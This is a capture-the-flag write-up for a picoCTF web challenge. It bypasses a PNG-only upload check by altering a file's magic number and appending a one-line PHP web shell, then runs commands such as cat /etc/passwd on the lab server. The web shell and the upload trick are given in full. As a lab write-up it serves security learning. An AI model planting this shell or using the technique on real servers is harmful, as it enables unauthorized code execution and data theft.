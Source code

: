 

**Objective:** 
Exploit a web application that only accepts `.png` files to achieve Remote Code Execution (RCE).

## Steps and Analysis:

### 1. Initial Observation:
- Accessed the website which prompted for a `.png` file upload.
- Screenshot:
- ![image](https://github.com/iDeletedMyCDrive/PicoCTF/assets/163599712/ab871f28-4dec-44a9-a3fe-3aae2b6af7eb)

### 2. Dir busting
- `gobuster dir -u http://gobuster dir -u http://atlas.picoctf.net:62175/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt`
- Output
	- ![image](https://github.com/iDeletedMyCDrive/PicoCTF/assets/163599712/63135799-205b-4592-af6b-2623e4bd36b6)


### 3. File Preparation and Magic Number Manipulation:
- Downloaded a random image from the internet to use as a base.
- Altered the magic number in the file to match a PNG file.
- Screenshot of modified magic number: ![image](https://github.com/iDeletedMyCDrive/PicoCTF/assets/163599712/8ec9cbff-3104-42f8-9a26-4d4253e799bb)

- _Note: The magic number (file signature) was altered to bypass file type checks by the website._


### 4. Embedding PHP Code:
- Appended PHP code to the image file to facilitate RCE using the following command:
  ```
  echo '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' >> PNG.png.php
  ```

### 5. Accessing the Uploaded File and Testing RCE:
- Navigated to the uploaded file’s URL: `atlas.picoctf.net:63517/uploads/PNG.png.php`
- Screenshots of the uploaded file in action: [File Location] ![image](https://github.com/iDeletedMyCDrive/PicoCTF/assets/163599712/1e409c34-9675-41a0-8221-15fba59302db)
, 
- Confirmed RCE by executing a test command (`cat /etc/passwd`):
  ```
  atlas.picoctf.net:63517/uploads/PNG.png.php?cmd=cat /etc/passwd
  ```
- Screenshot of test command execution: ![image](https://github.com/iDeletedMyCDrive/PicoCTF/assets/163599712/fb36784f-8d9b-4557-864a-67f9673f595c)


### 6. Exploring the Server:
- Used the `pwd` command to print the current working directory, revealing the path: `/var/www/html/uploads`
-  `atlas.picoctf.net:63517/uploads/PNG.png.php?cmd=pwd`
	- `/var/www/html/uploads`

### 7. Listing Directory Contents:
- Listed directories in `/var/www/html`, identifying a file named `GNTDOMBWGIZDE.txt` as potentially interesting.
- Screenshot of directory listing: [Directory Listing]
-![image](https://github.com/iDeletedMyCDrive/PicoCTF/assets/163599712/b9b50b6d-8062-43f0-86c3-70c38d8d1338)


### 8. Accessing the Identified File:
- Decided to investigate the `GNTDOMBWGIZDE.txt` file.
- Screenshot of the file's contents: ![image](https://github.com/iDeletedMyCDrive/PicoCTF/assets/163599712/8386e426-67fc-4dd5-9378-5c7b370b4cc7)


**Conclusion:** 
Successfully achieved RCE by manipulating an image file’s magic number and embedding PHP code, allowing exploration of the server and identification of potential points of interest.
